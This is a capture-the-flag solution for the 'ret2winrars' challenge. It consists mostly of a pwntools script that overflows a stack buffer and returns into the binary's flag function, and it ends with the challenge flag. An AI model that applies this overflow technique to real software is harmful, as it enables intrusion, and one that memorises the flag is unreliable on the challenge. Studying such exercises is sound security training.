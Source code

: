 # ret2winrars

### Solution
```python
#!/usr/bin/env python3
from pwn import *

elf = ELF('./ret2winrars')
rop = ROP(elf)

p = elf.process()
# p = remote('127.0.0.1', 1337)

def exploit():

    padding = b'A'*40
    ret = (rop.find_gadget(['ret']))[0]
    flag = elf.symbols['flag']

    payload = padding
    payload += p64(ret)
    payload += p64(flag)

    print(p.recvuntil(b': ').decode(encoding='ascii'))
    print(payload)
    p.sendline(payload)

    print(p.recvuntil(b'}').decode(encoding='ascii'))

def main():
	exploit()

if __name__ == "__main__":
	main()
```

**Flag:** `rarctf{0h_1_g3t5_1t_1t5_l1k3_ret2win_but_w1nr4r5_df67123a66}`
